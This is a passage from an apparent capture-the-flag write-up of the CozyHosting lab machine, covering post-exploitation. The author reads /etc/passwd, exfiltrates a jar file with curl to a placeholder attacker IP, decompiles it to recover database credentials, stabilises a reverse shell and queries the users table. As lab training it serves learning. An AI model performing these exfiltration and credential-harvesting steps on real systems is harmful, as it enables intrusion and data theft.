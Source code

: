 I checked `/etc/passwd` and found a new account, `josh`. I then ran `linpeas.sh` on the victim machine, but I did not find anything interesting. After searching through the filesystem for a while, I decided to inspect the web application, which was in `/app/cloudhosting-0.0.1.jar`. I did this by first setting up an upload server using the following command: `python3 -m uploadserver`. On the victim machine, I just `curl http://<ATTACKER_IP>:8000 -F "files=@cloudhosting-0.0.1.jar"`.

The next thing I've done is decompile the `jar` file using `jd-gui`. I searched through the decompiled data and found credentials for:

- `postgres`
- `kanderson`

![](./img/file-cozyhosting.jar-postgres-creds.png)

I used the `kanderson` credentials for `josh`, but it was invalid. I upgraded the tty by:

1. Pressing `CTRL+Z` to sent the reverse shell to background.
2. `stty raw -echo; fg`
3. `reset` on the foregrounded reverse shell session.
4. Setting `TERM` and row and column size for the tty using `stty rows X columns Y`.

The next thing I've done is use the following command to access the database `psql -h localhost -U postgres -d cozyhosting -W`. I used the credentials and accessed the database.

![](./img/post-reverse-shell-postgres-access.png)

I searched through the database and found a table `users` with the following accounts:

![](./img/post-reverse-shell-postgres-credentials.png)
